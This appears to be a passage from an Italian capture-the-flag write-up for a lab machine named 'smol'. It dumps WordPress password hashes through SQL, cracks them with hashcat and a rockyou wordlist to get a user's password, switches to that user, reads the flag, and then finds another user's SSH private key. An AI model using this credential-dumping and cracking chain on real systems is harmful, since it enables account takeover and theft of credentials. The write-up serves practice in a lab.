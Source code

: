 ```
SELECT ID, user_login, user_pass FROM wp_users;
```

```
+----+------------+------------------------------------+
| ID | user_login | user_pass                          |
+----+------------+------------------------------------+
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 
```

Adesso abbiamo alcuni hash da decifrare con hashcat.
```
nano hashes.txt
```

```
hashcat -m 400 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

```
diego:sandiegocalifornia
```

```
su diego
```

```
cat user.txt
45edaec653ff9ee06236b7ce72b86963
```

```
id
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
```
	gruppo internal comune

```
diego@smol:/home$ cd think
diego@smol:/home/think$ ls
diego@smol:/home/think$ ls -al
total 32
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 6 root  root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@smol:/home/think$ cd .ssh
diego@smol:/home/think/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
```
